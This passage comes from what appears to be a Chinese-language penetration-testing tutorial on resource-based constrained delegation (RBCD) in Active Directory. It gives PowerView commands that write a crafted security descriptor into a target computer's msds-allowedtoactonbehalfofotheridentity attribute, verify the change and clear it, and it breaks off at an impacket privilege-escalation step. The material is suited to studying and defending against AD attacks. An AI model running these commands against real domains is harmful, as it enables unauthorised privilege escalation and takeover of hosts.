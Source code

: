 ```plain
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-180313546-3823935851-3686928739-1604)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer win7-test| Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

[![](assets/1705982146-d02fc5b9199e9ec88c38867c4add72ac.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120223643-55005bb0-b7a1-1.png)  
c、验证是否成功添加

```plain
Get-DomainComputer win7-test -Properties msds-allowedtoactonbehalfofotheridentity
```

[![](assets/1705982146-4a094d1b08d0b1ae49e08f4d05363ed9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120223658-5ddcfc7a-b7a1-1.png)  
d、如果想要清除msds-allowedtoactonbehalfofotheridentity属性的值，可用如下命令

```plain
Set-DomainObject win7-test -Clear 'msds-allowedtoactonbehalfofotheridentity' -Verbose
```

配置完msDS-AllowedToActOnBehalfOfOtherIdentity属性之后就可以通过基于资源的约束委派去攻击目标主机了

#### impacket提权

Step 1：查看当前权限  
